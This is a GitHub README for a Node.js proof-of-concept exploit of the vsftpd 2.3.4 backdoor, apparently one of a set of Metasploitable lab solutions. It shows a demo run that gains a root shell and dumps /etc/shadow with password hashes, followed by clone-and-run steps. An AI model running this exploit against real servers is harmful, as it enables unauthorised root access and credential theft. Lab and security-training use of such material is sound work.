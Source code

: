 # CVE-2011-2523 - vsftpd_2_3_4_exploit

This is a POC exploit created in NodeJS to exploit the backdoor within vsftpd 2.3.4




## Demo

C:\Program Files\nodejs\node.exe .\vsftpd_2_3_4_exploit\index.js
```
220 (vsFTPd 2.3.4)

331 Please specify the password.

root

uid=0(root) gid=0(root)

root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
```

#Installation

git clone https://github.com/ThePenClicker/MetasploitableSolutions.git

cd MetasploitableSolutions/vsftpd_2_3_4_exploit

node index.js